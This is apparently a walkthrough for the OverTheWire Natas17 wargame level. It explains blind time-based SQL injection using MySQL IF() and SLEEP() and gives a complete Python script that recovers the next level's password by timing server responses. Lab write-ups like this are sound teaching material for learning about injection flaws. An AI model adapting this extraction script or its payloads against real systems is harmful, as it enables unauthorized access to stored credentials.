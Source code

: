 # 🔐 Natas17 Walkthrough

This level is very similar to **natas15**, especially if we look at the [source code](http://natas17.natas.labs.overthewire.org/index-source.html). We can see almost identical logic, with the main difference being **output handling**:
```php
if(mysqli_num_rows($res) > 0) {
    //echo "This user exists.<br>";
} else {
    //echo "This user doesn't exist.<br>";
}
} else {
    //echo "Error in query.<br>";
}
```
As you can see, all `echo` statements are commented out. This means that nothing is displayed in the server response.  

In practice, this means we cannot use the `natas15/16` script, which relied on analyzing `response.text()`. We need to come up with **another way to extract the password for natas18**, for example by using a time-based attack (`sleep`) instead of checking the response content.



# ⏳ Time-Based Attack

Since the server does not return any output that indicates whether a query was successful or not, we cannot rely on checking the page content to extract the password.  

A **time-based attack** exploits the fact that the database can be instructed to delay its response under certain conditions. For example, using MySQL's `IF()` function together with `sleep()`:
```php
    IF(condition, SLEEP(2), 0)
```
- `condition` is an expression that evaluates to `TRUE` or `FALSE`.  
- If the condition is true, the server will pause for 2 seconds before responding.  
- If the condition is false, it responds immediately.

By measuring how long the server takes to respond, we can infer whether our condition was true. In the context of Natas17, we can check one character at a time of the password:
```php
    IF(BINARY substring(password,1,1) = 'a', SLEEP(2), 0)
```
- If the first character of the password is `'a'`, the server waits 2 seconds.  
- Otherwise, it responds immediately.  

By iterating over all possible characters and positions, we can gradually reconstruct the full password. This method is especially useful when there is no visible output to analyze.



# 🤖 Automating the process

We won’t be doing this manually — instead, we’ll use a Python script.  

The main difference from **natas15/16** is that now we don’t check the response content, but instead measure the **response time**.
```python
    # Natas17 brute-force script :)
    import requests, string, time

    url = "http://natas17.natas.labs.overthewire.org"
    username = "natas17"
    natas17_password = "YOUR_NATAS17_PASSWORD"

    # characters to test
    char_data = string.ascii_letters + string.digits
    max_len = 32
    password = ""

    print("[*] Starting brute-force on natas17...")

    for count in range(1, max_len + 1):
        for c in char_data:
            injection = (
                f'natas18" AND IF(BINARY substring(password,1,{count}) = \'{password}{c}\', sleep(2), 0) -- '
            )
            response = requests.post(
                url,
                data={"username": injection},
                auth=(username, natas17_password)
            )

            if response.elapsed.total_seconds() > 2:
                password += c
                print(f"[FOUND] Position {count}: {c} -> {password}")
                break
            else:
                print(f"Trying pos {count}: {password}{c}", end="\r")

    print(f"[+] Password for natas18: {password}")
```

The whole script is available in the natas17 directory whith readable terminal outputs. (:

